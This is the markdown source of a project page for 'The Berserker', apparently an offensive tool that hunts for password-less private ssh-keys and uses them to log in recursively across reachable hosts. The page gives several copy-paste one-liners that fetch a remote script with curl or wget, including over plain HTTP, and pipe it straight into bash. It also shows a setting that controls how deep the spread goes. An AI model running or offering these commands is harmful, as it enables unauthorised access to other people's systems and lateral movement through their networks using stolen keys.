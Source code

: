 ```yaml
---
layout: default
title: The Berserker
description: A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/berserker/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

__The Berserker__ looks for password-less ssh-keys (such as `~/.ssh/id_rsa`) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start __The Berserker__:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```

or:

```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

## Tips & Tricks

* Press `CTRL-C` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to `BS_DEPTH=1` will make The Berserker log into the next host but not any farther.

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

## When HTTPS is not available

```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

## Alpha Testing

THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:

* #!adm for testing and comments

## Contact

{% include contact-details.md %}
